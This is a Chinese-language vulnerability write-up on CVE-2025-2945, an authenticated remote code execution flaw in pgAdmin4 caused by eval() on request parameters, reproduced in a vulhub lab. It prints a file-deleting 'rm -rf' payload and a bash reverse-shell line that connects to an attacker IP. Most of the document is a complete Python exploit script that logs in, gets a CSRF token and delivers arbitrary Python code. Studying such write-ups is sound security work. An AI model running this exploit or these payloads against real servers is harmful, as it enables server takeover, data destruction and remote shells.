






# pgAdmin4 远程代码执行漏洞（CVE-2025-2945）分析与复现-先知社区

> **来源**: https://xz.aliyun.com/news/19110  
> **文章ID**: 19110

---

# 漏洞简介

**受影响版本 ：pgAdmin4 <= 9.1**

**该漏洞为经过身份验证的远程代码执行(RCE)**

pgAdmin 是一个流行且功能丰富的 PostgreSQL 开源管理和开发平台，被数据库管理员和开发人员广泛用于通过基于 Web 的界面管理 PostgreSQL 数据库。

# 漏洞描述

pgAdmin4 9.2版本之前存在一个远程代码执行漏洞。该漏洞存在于两个POST接口中，两个接口的参数被不安全地传递给Python的eval()函数，从而允许已认证的攻击者在服务器上执行任意代码。该漏洞影响pgAdmin4 9.2版本之前的所有版本

## 漏洞复现

进入vulhub文件夹，找到pgadmin文件夹里面的CVE-2025-2945文件

​



然后就是启动我们的靶机





得到ip和端口号后，访问：



再通过已经公开的exp脚本进行测试：

​

我们写入一个hack.txt文件写入服务器，然后我们到服务器上查看是否存在该文件

在图中显而易见，已经有了hack.txt,说明成功获取了权限

# 漏洞分析

该漏洞存在于 pgAdmin 4 的SQL查询编辑器下载功能和云部署模块中，攻击者可以利用两个POST接口（/sqleditor/ query\_tool/download 和 /cloud/deploy）中的参数（query\_commited 和 high\_availability）传递给 Python 的 eval() 函数，而这些参数未经过适当的验证，从而允许攻击者在服务器上执行任意代码

​

例如，在query\_commited中放入\_\_import\_\_('os').system('rm -rf /important/files')，这个代码会删除服务器上的重要文件。

​

更危险的攻击是获取反向shell，攻击者会使用\_\_import\_\_('subprocess').run(['bash','-c','bash -i >& /dev/tcp/攻击者IP/端口 0>&1'])这样的代码，让服务器主动连接到攻击者的机器，从而获得完全的控制权

​

下面是已公开的exp：

​

```
#!/usr/bin/env python3

import re
from random import randint
from urllib.parse import urljoin

import requests


def get_csrf_token(session: requests.Session, target_url: str) -> str | None:
login_resp = session.get(urljoin(target_url, '/login'), allow_redirects=False)
if login_resp.status_code == 200:
if m := re.search(
r'<input name="csrf_token"( hidden="")? value="([\w+.-]+)">', login_resp.text
):
return m.group(2)
if m := re.search(r'"csrfToken": "([\w+.-]+)"', login_resp.text):
return m.group(1)
else:
js_resp = session.get(urljoin(target_url, '/browser/js/utils.js'))
if m := re.search(r"pgAdmin\['csrf_token'\]\s*=\s*'([^']+)'", js_resp.text):
return m.group(1)
if m := re.search(r'"csrfToken": "([\w+.-]+)"', js_resp.text):
return m.group(1)
print("[!] Failed to retrieve CSRF token")
return


def exploit(
target_url: str,
username: str,
password: str,
db_name: str,
db_user: str,
db_pass: str,
payload: str,
max_server_id: int = 10
) -> bool:
"""
pgAdmin4 query tool authenticated RCE (CVE-2025-2945) exp.

:return: True if the exploit attempt is (or believed to be) successful,
otherwise False.
"""
session = requests.Session()

# Login
csrf_token = get_csrf_token(session, target_url)
if csrf_token is None:
return False

resp = session.post(
urljoin(target_url, 'authenticate/login'),
data={
"csrf_token": csrf_token,
"email": username,
"password": password,
"language": "en",
"internal_button": "login"
},
allow_redirects=False,
)
if not resp.ok or resp.headers.get('Location', '').endswith('/login'):
print("[!] Failed to authenticate to pgAdmin")
return False
print("[+] Successfully authenticated to pgAdmin")

# Refresh CSRF token
csrf_token = get_csrf_token(session, target_url)
if csrf_token is None:
return False
session.headers.update({"X-pgA-CSRFToken": csrf_token})

# Find a valid server ID
sgid = randint(1, 10)
sid = None
for i in range(1, max_server_id + 1):
resp = session.get(
urljoin(target_url, f'/sqleditor/get_server_connection/{sgid}/{i}'),
headers={"Content-Type": "application/x-www-form-urlencoded"}
)
if resp.status_code == 200:
if resp.json().get('data', {}).get('status') is True:
print("[+] Found valid server ID:", i)
sid = i
break
else:
print(f"[!] Received {resp.status_code} when trying to find server ID")
print("[!] Received body:", resp.text)
return False

if sid is None:
print("[!] Failed to find a valid server ID, try increasing MAX_SERVER_ID")
return False

# Initialize sqleditor
trans_id = randint(1_000_000, 9_999_999)
did = randint(10000, 99999)
resp = session.post(
urljoin(target_url, f"/sqleditor/initialize/sqleditor/{trans_id}/{sgid}/{sid}/{did}"),
json={
"user": db_user,
"password": db_pass,
"role": "",
"dbname": db_name,
}
)
if not resp.ok:
print("[!] Failed to initialize sqleditor")
return False

# Send the payload
print("[+] Exploiting the target...")
resp = session.post(
urljoin(target_url, f"/sqleditor/query_tool/download/{trans_id}"),
json={"query_commited": payload},
headers={
"Referer": urljoin(target_url, f"/sqleditor/panel/{trans_id}?is_query_tool=true")
}
)
if resp.status_code == 500:
print("[+] Received expected 500 response:", resp.text)
return True
else:
print(
"[!] Received unexpected response code from the exploit attempt:",
resp.status_code, resp.text
)
return False

if __name__ == '__main__':
import argparse
import sys
parser = argparse.ArgumentParser(description="pgAdmin4 query tool authenticated RCE (CVE-2025-2945) exp")
parser.add_argument(
"--target-url", required=True, help="Base URL of the target pgAdmin4 instance (http://RHOST:RPORT/)"
)
parser.add_argument("--username", help="pgAdmin4 username", required=True)
parser.add_argument("--password", help="pgAdmin4 password", required=True)
parser.add_argument(
"--db-user", help="Username of the database used to initialize sqleditor", required=True
)
parser.add_argument("--db-pass", help="Database password", required=True)
parser.add_argument("--db-name", help="Database db name", required=True)
parser.add_argument("--payload", help="Payload (Python code)", required=True)
parser.add_argument("--max-server-id", type=int, default=10, help="Maximum number of Server IDs to try")
ns = parser.parse_args()
sys.exit(int(not exploit(ns.target_url, ns.username, ns.password, ns.db_name, ns.db_user, ns.db_pass, ns.payload, ns.max_server_id)))
```
